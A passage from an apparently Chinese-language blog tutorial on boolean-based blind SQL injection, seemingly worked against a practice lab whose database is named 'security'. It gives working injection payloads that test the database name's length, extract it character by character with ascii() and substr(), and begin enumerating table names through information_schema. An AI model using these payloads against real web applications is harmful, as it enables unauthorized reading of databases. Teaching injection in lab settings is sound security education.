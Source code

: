 ```matlab
?id=1' and length((select database()))>7 -- +
 
这个解释
 
先通过 (select database()) 来查询数据库
 
然后放入 length(数据库的字符串) 来判断长度
 
通过后面的判断来猜测长度 
```

也可以使用其他的逻辑

```csharp
?id=1' and length((select database()))=8 -- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/feb46253c2f42509585909a2185cbf9b.png" alt="" style="max-height:347px; box-sizing:content-box;" />


这里就确定了 数据库名的长度为8

这个时候就需要另一个函数了 ascii() 和substr()

这个作用就是切片和转为ascii 然后对ascii进行对比就可以爆破出数据库

```scss
SUBSTR(要切片的字符串, 从什么时候开始, 切多少)
```

我们可以开始构造

```csharp
id=1' and ascii(substr((select database()),1,1))=115 -- +
```

这里 我们就可以通过二分法 判断 ascii的值为115



<img src="https://i-blog.csdnimg.cn/blog_migrate/e237b5ac3e8b66720adceda83e93048f.png" alt="" style="max-height:89px; box-sizing:content-box;" />


为s

然后就可以一个一个爆破出来

这样数据库就爆破完成

接着我们就可以开始爆破表了

### 表名

```csharp
/?id=1' and length((select group_concat(table_name) from information_schema.tables where table_schema='security'))=29-- +
```


